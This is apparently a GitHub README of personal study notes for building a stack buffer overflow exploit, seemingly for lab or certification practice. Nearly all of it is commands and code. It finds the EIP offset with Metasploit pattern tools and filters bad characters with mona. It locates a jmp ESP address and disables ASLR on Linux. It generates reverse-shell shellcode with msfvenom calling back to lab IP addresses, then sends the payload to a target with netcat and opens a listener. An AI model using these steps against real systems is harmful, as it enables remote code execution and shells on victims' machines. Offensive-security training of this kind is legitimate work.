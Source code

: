 # OSC_BoF
This Rep describes my steps for BoF. 


1. To find the EIP offset net to create a pattern with msfvenom 

 /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100 > exploit.txt
 -> check the EIP value: example EIP: 43346943
 then use command to find out the offset: 
 /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2100 -q 42367242
 additional step:  /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2100 -q Aa0A (first 4 chars of offset to find how many chars until ESP)
 offset = 1812, -> need to fill until then with 1812 Chars
 1. Step in code: #buf = b"A" * OFFSET #junk get to EIP

2. Find bad Characters, send all chars, in hex to File and filter out bad ones: 
3. shortcut with Mona: !mona config -set workingfolder c:\log\%p
   !mona bytearray -> create bytearray.bin
   !mona compare -f C:\log\bad-characters-windows-4\bytearray.bin -a 005756C8 (address is where Badchars start, usually EBX?) 
   !mona bytearray -cpb "\x00\x06\x0a\x1a\"
   !mona compare -f C:\log\bad-characters-windows-4\bytearray.bin -a 005756C8 (address is where Badchars start, usually EBX?) 

4. find a jmp ESP instruction in code, so that we can put in our shellcode 
5. Windows: use mona !mona jmp -r esp -cpb "\x00\x1a" use jump esp instruction, to fin the right address. 
   Linux: need to disable ASLR: 
   echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
   check with: 
   cat /proc/sys/kernel/randomize_va_space
   needs to be 0, 2 means activated
    in ebd, use plugin Optcode searcher and look for ESP - EIP, and first instruction that has jmp ESP
5. take the address of jump instruction and write it backwards, ex: 0x5e9a515e -> EIP="\x5e\x51\x9a\x5e" 
6. new code: #buf = b"A" * OFFSET + EIP   
7. next add 16x NOPs: b"\x90" *16
8. new code: #buf = b"A" * OFFSET + EIP + "\x90" *16
9. create the shellcode with MSFvenom:
       msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.45.214 LPORT=443 -f py -v buf -b "\x00\x06\x0a\x1a\x3b\xcf"
       msfvenom -p windows/exec CMD='cmd.exe' --format c -b "\x00\x06\x0A\x1A\x3B\xCF\x0d\xff" -f raw -o exploit.txt
       msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.178 LPORT=443 -o exploit.txt -b "\x00\x0a\x1a"
       msfvenom -a x86 --platform Linux -p linux/x86/shell_reverse_tcp LHOST=192.168.45.221 LPORT=443 -f py -v buf -b "\x00\x0a\x0d\x1a\x20\x43\x75\x9e\xbc"
9. write final: 
                f = open("/home/kali/Downloads/exploit.txt", "wb")
                f.write(buf)
                f.close()
 10. send to server: 
 cat exploit.txt - | nc 192.168.221.52 5000
and set nc listner: nc -nvlp 443



xxd -g 1 exploit.txt -> to read out the chars 



